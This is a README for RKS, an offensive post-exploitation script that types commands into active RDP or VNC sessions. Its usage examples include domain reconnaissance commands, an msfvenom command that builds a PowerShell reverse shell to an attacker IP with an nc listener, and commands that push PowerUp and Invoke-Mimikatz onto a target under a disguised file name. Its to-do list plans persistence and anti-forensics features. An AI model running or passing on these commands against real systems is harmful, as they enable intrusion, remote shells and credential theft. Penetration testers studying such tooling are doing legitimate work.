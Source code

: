 # Description

## Introduction

A script to automate keystrokes through an active remote desktop session that assists offensive operators in combination with living off the land techniques.

## About RKS (RemoteKeyStrokes)

All credits goes to [nopernik](https://github.com/nopernik) for making it possible so I took it upon myself to improve it. I wanted something that helps during the post exploitation phase when executing commands through a remote desktop.

## Help Menu

```
$ ./rks.sh -h
Usage: ./rks.sh (RemoteKeyStrokes)
Options:
    -c, --command <command | cmdfile>       Specify a command or a file containing to execute
    -i, --input <input_file>                Specify the local input file to transfer
    -o, --output <output_file>              Specify the remote output file to transfer
    -m, --method <method>                   Specify the file transfer or execution method
                                            (For file transfer "base64" is set by default if
                                            not specified. For execution method "none" is set
                                            by default if not specified)

    -p, --platform <operating_system>       Specify the operating system (windows is set by
                                            default if not specified)

    -w, --windowname <name>                     Specify the window name for graphical remote
                                            program (freerdp is set by default if not
                                            specified)

    -h, --help                              Display this help message
```

## Usage

### Internal Reconnaissance

- When running in command prompt

```
$ cat recon_cmds.txt
whoami /all
net user
net localgroup Administrators
net user /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain
net group "Domain Computers" /domain

$ ./rks.h -c recon_cmds.txt
```

### Execute Implant

- Execute an implant while reading the contents of the payload in powershell.

```
$ msfvenom -p windowx/x64/shell_reverse_tcp lhost=<IP> lport=4444 -f psh -o implant.ps1

$ ./rks.sh -c implant.ps1

$ nc -lvnp 4444
```

### File Transfer

- Transfer a file remotely when pivoting in a isolated network. If you want to specify the remote path on windows be sure to include quotes.

```
$ ./rks.sh -i /usr/share/powersploit/Privesc/PowerUp.ps1 -o script.ps1

$ ./rks.sh -i /usr/share/powersploit/Exfiltration/Invoke-Mimikatz.ps1 -o "C:\Windows\Temp\update.ps1" -m base64
```

### Specify Grapical Remote Software

- If you're targeting VNC network protocols you can specify the window name with `tightvnc`.

`$ ./rks.sh -i implant.ps1 -w tightvnc`

- If you're targeting legacy operating systems with older RDP authentication specify the window name with `rdesktop`.

`$ ./rks.sh -i implant.bat -w rdesktop`

## TODO and Help Wanted

- Add text colors for better user experience

- Implement Base64 file transfer

- Implement Bin2Hex file transfer

- Implement a persistence function for both windows and linux.

- Implement antiforensics function for both windows and linux.

- Implement to read shellcode input and run C# implant and powershell runspace

## References

- [Video: sethc.exe Backdoor CMD Payload delivery (USB Rubber Ducky style)](https://www.youtube.com/watch?v=8YFEujJUxws)

- [Original Script](https://github.com/nopernik/mytools/blob/master/rdp-cmd-delivery.sh)

- [sticky_keys_hunter](https://github.com/ztgrace/sticky_keys_hunter)

## Credits

- [nopernik](https://github.com/nopernik)
